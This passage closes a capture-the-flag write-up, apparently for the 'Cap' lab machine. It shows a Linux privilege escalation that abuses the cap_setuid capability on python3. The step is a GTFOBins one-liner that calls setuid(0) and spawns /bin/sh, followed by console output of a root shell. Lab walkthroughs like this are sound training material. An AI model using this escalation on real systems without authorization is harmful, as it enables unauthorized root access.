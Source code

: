 Fortunately, we have cap_setuid available for the python3.8 binary on the target. Then, a quick search on [gtfobins](https://gtfobins.github.io/) lets us the root shell.

> `GTFOBins` is a curated list of Unix binaries we can use to bypass local security restrictions in misconfigured systems.
{: .prompt-info}

```console
$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

```console
-bash-5.0$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cd /root
# ls
root.txt  snap
```

Now we can read the root flag! That's it. Cap has been Pwned!